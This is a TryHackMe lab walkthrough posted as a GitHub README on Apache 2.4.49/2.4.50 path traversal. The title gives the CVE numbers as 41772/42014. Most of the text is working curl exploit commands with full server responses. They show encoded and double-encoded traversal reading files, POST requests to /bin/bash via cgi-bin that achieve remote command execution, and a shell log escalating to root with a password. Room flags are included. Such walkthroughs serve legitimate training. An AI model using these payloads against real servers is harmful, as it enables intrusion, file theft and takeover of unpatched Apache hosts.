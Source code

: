 <h1 align="center">CVE-2021-41772/42014</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>A small explanation of an Apache path traversal bug and an incomplete fix</em>.<br>
Access it <a href="https://tryhackme.com/room/cve202141773"</a>here.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/094c2313-0800-476f-8c7e-df2d68919be0"></p>



![image](https://github.com/user-attachments/assets/0336c5b4-ee3a-4059-b263-916cd4478b32)





![image](https://github.com/user-attachments/assets/85a38630-7b4d-4239-85e5-4f1850c0d7e2)

![image](https://github.com/user-attachments/assets/9fd50766-fb44-4cd3-beef-400de55543ab)

![image](https://github.com/user-attachments/assets/34a37380-86a9-4669-8738-85f848df40b9)

```bash
```

![image](https://github.com/user-attachments/assets/aa2b002a-2bcd-4926-96eb-c2d69f989a44)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 1... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
* Connection #0 to host 10.10.160.15 left intact
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/b6815ccb-f7ef-4a9d-9f48-295af3dd60c6)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
...
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/ab8d18f3-c960-477c-ad4c-68216453b860)

![image](https://github.com/user-attachments/assets/2d55a44b-a61a-4e23-b176-ffde1fd0445a)


```bash
:~/InfoRoom# curl -v 'http://1TargetIP:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{2C3_F20M_C61}
```


```bash
:~/InfoRoom# curl -v 'http://TargetIP:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
...
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "18-5ce102e26103d"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/plain
< 
...
THM{D0UBL3_3NC0D1N6_F7W}
```

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
*   Trying 10.10.160.15:8083...
* TCP_NODELAY set
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{F1L732_8YP455_2C3}
```

![image](https://github.com/user-attachments/assets/7c519922-90a4-44a2-916c-6e5ec4e68724)


```bash
daemon@18c7613b3859:/bin$ whoami
whoami
daemon
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/bin
cd /root
ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}
```


<br>
<br>

![image](https://github.com/user-attachments/assets/6a81a593-6122-4acb-801d-162bb1f46795)

![image](https://github.com/user-attachments/assets/5a401eff-c01a-48a8-8927-2af2fafc5b65)

